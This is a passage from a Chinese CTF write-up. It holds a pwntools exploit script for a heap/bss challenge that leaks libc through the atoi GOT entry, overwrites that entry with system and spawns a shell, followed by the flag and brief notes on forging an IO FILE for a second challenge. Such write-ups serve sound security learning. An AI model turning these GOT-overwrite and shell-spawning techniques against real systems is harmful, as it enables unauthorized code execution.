 ```python
def lg(name, val):
    log.info(name+" : "+hex(val))

def add():
    sla(io,"your choice :\n","1")

def edit(name,data):
    sla(io,"your choice :\n","2")
    sa(io,'name:\n',name)
    sla(io,'data:\n',data)

def show():
    sla(io,"your choice :\n","4")

def free():
    sla(io,"your choice :\n","3")


pause(io)
# mydebug(io,"b *0x0400906")
fake_chunk = 0x06010A0
for i in range(0x40):
    add()

free()
edit(p64(fake_chunk),'b')
add()
add()
edit(p64(elf.got['atoi']),'c')
show()
ru(io,"name:")
atoi_addr = u64(rv(io,6)+'\x00\x00')
libc_base = atoi_addr - libc.sym['atoi']
lg("base:",libc_base)
sys = libc_base + libc.sym['system']

edit(p64(sys),'d')
sla(io,"your choice :\n","/bin/sh")

io.interactive()

```

> WHUCTF{Should_You_Attack_Bss}

## overflow

考察IO FILE。一般都是打`scanf` 之类的函数，这题可以直接在`bss` 伪造整个IO FILE，把`vtable`填充为`one_gadget`地址，令`stdout` 指向这个FILE结构体便能跳转到shell。

~~这题花的时间最长还是没有解决，不太清楚IO FILE结构体哪些东西需要赋值为哪些特殊的值才能通过检测，又得看源码了吗/(ㄒoㄒ)/~~ ~~最骚的是跑官方wp可以跑通，一挂上gdb就崩，导致无法调试，擦这什么神必题目~~
